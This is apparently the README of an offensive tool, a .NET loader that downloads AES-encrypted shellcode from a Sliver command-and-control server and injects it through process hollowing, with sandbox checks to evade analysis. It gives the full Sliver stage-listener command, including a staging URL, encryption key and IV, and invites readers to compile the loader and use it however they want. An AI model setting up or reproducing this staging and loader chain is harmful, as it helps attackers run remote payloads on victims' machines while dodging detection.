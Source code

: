 # ProcessHollowEncrypted
A .NET assembly that pulls AES encrypted shellcode from Sliver C2 

Compile as DLL or EXE and use how you want. 

## Using with Sliver

On sliver server enter:

  sliver > stage-listener -p https_beacon -u http://example.com:8080 --aes-encrypt-key 'D(G+KbPeShVmYq3t6v9y$B&E)H@McQfF' --aes-encrypt-iv '8y/B?E(G+KbPeShP'

The encryption details must match inside of Program.cs. 


### Credits

* process hollowing implementation - [https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75](https://gist.github.com/smgorelik/9a80565d44178771abf1e4da4e2a0e75)
* bunch of sandbox checks - [https://github.com/Arvanaghi/CheckPlease/tree/master/C%23](https://github.com/Arvanaghi/CheckPlease/tree/master/C%23)
